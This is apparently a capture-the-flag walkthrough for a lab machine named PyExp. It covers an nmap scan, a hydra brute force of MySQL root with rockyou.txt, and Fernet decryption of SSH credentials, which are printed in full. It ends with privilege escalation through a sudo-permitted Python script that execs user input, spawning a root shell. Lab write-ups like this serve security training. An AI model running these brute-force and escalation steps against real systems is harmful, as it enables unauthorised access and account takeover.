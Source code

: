 # PyExp

## Nmap

```
sudo nmap 192.168.75.118 -p- -sS -sV                

PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

With only `SSH` and `MySQL` open we can start bruteforcing MySQL. As the root account generally always exists we can start by bruteforcing this using the rockyou.txt wordlist.

```
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.75.118
```

![](<../../../.gitbook/assets/image (1343) (1).png>)

With the valid credentials of `root:prettywoman` we can now login to MySQL.

```
mysql -u root -p -h 192.168.75.118
```

![](<../../../.gitbook/assets/image (1344).png>)

Viewing available databases we find the database 'data' which contains a table called 'fernet'. This table contains a token and key as shown below.

![](<../../../.gitbook/assets/image (1345).png>)

The values are:

```
cred

gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= 

keyy

UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=
```

I tried decoding these with base64 and a few others. No luck with any legible output. Researching the words fernet and encode give us the following result: [https://asecuritysite.com/encryption/ferdecode](https://asecuritysite.com/encryption/ferdecode)

Entering the details we have found give the results below.

![https://asecuritysite.com/encryption/ferdecode](<../../../.gitbook/assets/image (1346).png>)

These credentials returned are: ``lucy:wJ9`"Lemdv9[FEw-`` Which allow us to login with SSH as the user lucy.

```
ssh -p 1337 lucy@192.168.75.118
```

![](<../../../.gitbook/assets/image (1347).png>)

Checking sudo permissions with `sudo -l` shows we can run `/usr/bin/python2 /opt/exp.py` as root without specifying a password.

![](<../../../.gitbook/assets/image (1348) (1).png>)

Reading the contents of /opt/exp.py:

```
uinput = raw_input('how are you?')
exec(uinput)
```

Looks like this script will ask us a question which prompts raw input. If we can escape the shell whilst the script is active we should be able to maintain escalated privileges. Use the command below to escape the shell when prompted for input.

```
import os; os.system("/bin/sh")
```

![](<../../../.gitbook/assets/image (1354).png>)
